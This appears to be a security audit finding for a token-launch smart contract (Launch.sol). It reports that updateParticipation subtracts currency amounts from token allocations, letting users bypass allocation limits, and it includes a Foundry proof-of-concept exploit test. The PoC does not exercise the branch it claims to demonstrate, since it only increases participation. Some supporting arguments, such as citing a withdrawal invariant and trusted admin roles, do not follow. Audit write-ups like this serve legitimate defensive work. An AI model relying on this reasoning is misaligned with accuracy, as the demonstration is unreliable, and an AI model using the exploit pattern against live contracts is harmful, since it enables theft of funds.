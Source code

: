 Shaggy Stone Dove

High

# Unit Mismatch in Token Accounting Leads to Allocation Limit Bypass

---
### **Summary and Impact**  

The `Launch.sol` contract contains a critical accounting error in the `updateParticipation` function where token allocations are incorrectly adjusted using currency amounts. This mismatch allows users to bypass core allocation limits defined in `LaunchGroupSettings`, directly violating the protocol's documented invariants.

Based on the project documentation stating "What properties/invariants do you want to hold even if breaking them has a low/unknown impact?" with the response "For a given payment currency, The total amount of payment currency tokens that can be withdrawn should equal the total amount of payment currency tokens funded for finalized token sale participations," this vulnerability fundamentally breaks that invariant.

The impact is severe because:
1. Users can exceed their maximum token allocation limits
2. Users can manipulate their recorded token amounts to fall below minimum thresholds while retaining more tokens
3. The total token accounting becomes unreliable, breaking the documented ratio between payment currency and tokens

---
### **Vulnerability Details**  

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312

The issue occurs in the `updateParticipation` function where currency amounts are directly used to adjust token allocations:

```solidity
// In Launch.sol
if (prevInfo.currencyAmount > newCurrencyAmount) {
    uint256 refundCurrencyAmount = prevInfo.currencyAmount - newCurrencyAmount;
    userTokens.set(request.userId, userTokenAmount - refundCurrencyAmount); // VULNERABLE
}
```

This creates a mismatch because `userTokens` stores token amounts but is being modified with currency amounts. Consider this scenario:

1. Token price is set to 10000 bps (1 token = 100 currency units)
2. User has 1000 tokens (100,000 currency units)
3. User updates to 900 tokens (90,000 currency units)
4. Difference is 10,000 currency units
5. Code subtracts 10,000 from token amount instead of 100 tokens

Here's a proof of concept test demonstrating the vulnerability:

```solidity
function test_ExploitUnitMismatch_BypassMaxAllocation() public {
    // Set max token allocation to 2000 tokens
    uint256 maxTokens = 2000 * 10**launch.tokenDecimals();
    vm.startPrank(manager);
    settings.maxTokenAmountPerUser = maxTokens;
    launch.setLaunchGroupSettings(testLaunchGroupId, settings);
    vm.stopPrank();

    // Update to 3000 tokens (should fail but doesn't)
    UpdateParticipationRequest memory request = 
        _createUpdateParticipationRequest(3000);
    bytes memory signature = _signRequest(abi.encode(request));

    vm.startPrank(user1);
    currency.approve(address(launch), 
        _getCurrencyAmount(request.launchGroupId, 
        request.currency, request.tokenAmount));

    // This executes successfully despite exceeding max allocation
    launch.updateParticipation(request, signature);

    uint256 userTokens = launch.getUserTokensByLaunchGroup(
        testLaunchGroupId, testUserId);
    assertTrue(userTokens > maxTokens);
    vm.stopPrank();
}
```

This directly violates the protocol's configuration in `rova-contracts` where the documentation states: "Admin, manager, signer, and operator roles are trusted" - implying that role-based limits like max allocations should be strictly enforced.

---
### **Tools Used**  
- Manual Review
- Foundry

---
### **Recommendations**  

The fix requires proper unit conversion when adjusting token allocations. This ensures token allocations are adjusted using token amounts rather than currency amounts, maintaining the correct ratio between payment currency and tokens as specified in the protocol's invariants.
